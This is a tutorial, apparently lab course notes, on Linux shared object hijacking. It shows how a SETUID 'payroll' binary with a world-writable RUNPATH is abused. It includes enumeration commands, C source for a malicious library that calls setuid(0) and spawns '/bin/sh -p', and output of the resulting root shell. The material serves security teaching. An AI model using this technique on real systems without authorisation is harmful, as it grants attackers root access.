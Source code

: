 # Linux Shared Object Hijacking

* Programs and binaries under development usually have custom libraries associated with them. Consider the following `SETUID` binary.

```shell-session
ls -la payroll
```

```
-rwsr-xr-x 1 root root 16728 Sep  1 22:05 payroll
```

* We can use [ldd](https://manpages.ubuntu.com/manpages/bionic/man1/ldd.1.html) to print the shared object required by a binary or shared object.&#x20;
  * `Ldd` displays the location of the object and the hexadecimal address where it is loaded into memory for each of a program's dependencies.

```shell-session
ldd payroll
```

```shell-session
linux-vdso.so.1 =>  (0x00007ffcb3133000)
libshared.so => /lib/x86_64-linux-gnu/libshared.so (0x00007f7f62e51000)
libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007f7f62876000)
/lib64/ld-linux-x86-64.so.2 (0x00007f7f62c40000)
```

* We see a non-standard library named `libshared.so`
  * listed as a dependency for the binary.
* As stated earlier, it is possible to load shared libraries from custom locations.
* One such setting is the `RUNPATH` configuration.
  * Libraries in this folder are given preference over other folders.
  * This can be inspected using the [readelf](https://man7.org/linux/man-pages/man1/readelf.1.html) utility.

```shell-session
readelf -d payroll  | grep PATH
```

```shell-session
 0x000000000000001d (RUNPATH)            Library runpath: [/development]
```

* The configuration allows the loading of libraries from the `/development` folder, which is writable by all users.
  * This misconfiguration can be exploited by placing a malicious library in `/development`
    * which will take precedence over other folders because entries in this file are checked first (before other folders present in the configuration files).

```shell-session
ls -la /development/
```

* Before compiling a library, we need to find the function name called by the binary.

```shell-session
ldd payroll
```

```shell-session
linux-vdso.so.1 (0x00007ffd22bbc000)
libshared.so => /development/libshared.so (0x00007f0c13112000)
/lib64/ld-linux-x86-64.so.2 (0x00007f0c1330a000)
```

```shell-session
cp /lib/x86_64-linux-gnu/libc.so.6 /development/libshared.so
```

```shell-session
./payroll 
```

* get an error

```shell-session
./payroll: symbol lookup error: ./payroll: undefined symbol: dbquery
```

* We can copy an existing library to the `development` folder.
  * Running `ldd` against the binary lists the library's path as `/development/libshared.`so, which means that it is vulnerable.
  * Executing the binary throws an error stating that it failed to find the function named `dbquery`.
  * We can compile a shared object which includes this function.

```c
#include<stdio.h>
#include<stdlib.h>

void dbquery() {
    printf("Malicious library loaded\n");
    setuid(0);
    system("/bin/sh -p");
} 
```

* The `dbquery` function sets our user id to 0 (root) and executing `/bin/sh` when called. Compile it using [GCC](https://linux.die.net/man/1/gcc).

```shell-session
gcc src.c -fPIC -shared -o /development/libshared.so
```

* Executing the binary again should display the banner and pops a root shell.

```shell-session
***************Inlane Freight Employee Database***************

Malicious library loaded
# id
uid=0(root) gid=1000(mrb3n) groups=1000(mrb3n)
```
